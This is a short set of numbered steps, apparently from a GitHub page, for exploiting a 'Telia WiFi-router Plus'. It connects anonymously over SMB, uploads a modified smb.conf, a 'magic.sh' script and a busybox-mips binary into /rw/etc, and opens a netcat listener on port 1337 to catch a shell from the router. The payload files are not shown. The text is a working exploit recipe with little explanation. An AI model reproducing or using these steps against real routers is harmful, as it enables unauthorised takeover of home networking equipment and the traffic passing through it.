 Telia WiFi-router Plus

1. First connect to samba when u have dd 41GATE31.img to a ext2/3 stick

2- smbclient //192.168.1.253/Disk_a1 -N

3. Now move smb.conf and magic.sh put busybox-mips to /rw/etc

4. chmod +x <files>

5. cd rootlink\rw\etc

6. put smb.conf

7. put magic.sh

8.put busybox-mips

9.open another window and run nc -lvvp 1337

10.while waiting, upload smb.conf /rw/etc again..
